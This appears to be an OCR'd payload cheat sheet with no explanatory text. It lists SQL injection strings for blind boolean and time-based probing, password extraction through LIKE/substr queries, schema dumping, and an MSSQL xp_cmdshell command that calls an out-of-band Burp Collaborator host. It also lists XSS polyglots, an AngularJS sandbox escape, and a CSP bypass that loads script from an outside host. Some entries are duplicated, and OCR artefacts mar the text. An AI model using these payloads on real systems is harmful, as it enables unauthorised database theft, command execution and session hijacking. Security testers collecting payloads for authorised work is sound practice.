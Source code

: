 -1' OR 32<(1+2+4) or '4mEwSPwJ'=' => TRUE
-1' OR 32>(1+2+4) or '4mEwSPwJ'=' => FALSE

b"action=challenge&user=" + args.user.encode('utf-8') + b"' AND
user_password LIKE \'" + temp_pass.encode('utf-8') + b"%' AND
substr(user_password,1," + str(temp_pass_len).encode('utf-8') + b") = '" +
temp_pass.encode('utf-8') + b"'--")

login =
'{"type":"request","message":{"transactionid":"123456789zxa","action":"login","username":"'
+ username + '\' AND LENGTH(user_password)==' + str(length) + ' AND
88=LIKE(\'ABCDEFG\',UPPER(HEX(RANDOMBLOB(500000000/2)))) or
\'1\'=\'2","token":"lolwat"}}'
33; DECLARE @command varchar(255); SELECT @command='ping yhjbc2mndl88o89il3ueyud7zy5pte.burpcollaborator.net'; EXEC Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'

(SELECT 7397 FROM (SELECT(SLEEP(15)))nu11secur1ty)
id=1337 and 1=(select 1 from information_schema.table_constraints where table_name regexp ‗^us[a-z]‘ limit 0,1) –


*****ASP .NET
' and 1=(select cast(concat(db_name(),0x3a,0x3a,table_name,0x0a) as varchar(8000)) from information_schema.tables for xml path('')) — -+
'AND 1=(select cast(concat(db_name(),0x3a,0x3a,table_name,0x0a) as varchar(8000)) from information_schema.tables for xml path('')) or '1'='

==========================================================================


java -jar <jar-file-name>.jar

xss
========================
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
javascript://comment%0a%0dalert(0);
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
<input onfocus="alert(0);" autofocus>
onload=\"a='aler';d='XSS';b='t('+d+')';c=a+b;console.log(eval(c));
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
Angular JS short vector by @garethheyes 
{{$eval.constructor('alert(1)')()}}

Even shorter by @LewisArdern
{{$on.constructor('alert(1)')()}}

<object/onerror=write`1`//
<output name="jAvAsCriPt://&NewLine;\u0061ler&#116(1)" onclick="eval(name)">X</output>
CSP Bypass by @Rhynorater
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://rhy.xss.ht ";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
CSP Bypass by @Rhynorater
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://rhy.xss.ht ";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
<svg/onload=location=window[`atob`]`amF2YXNjcmlwdDphbGVydCgxKQ==`;//
</title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH`//'>
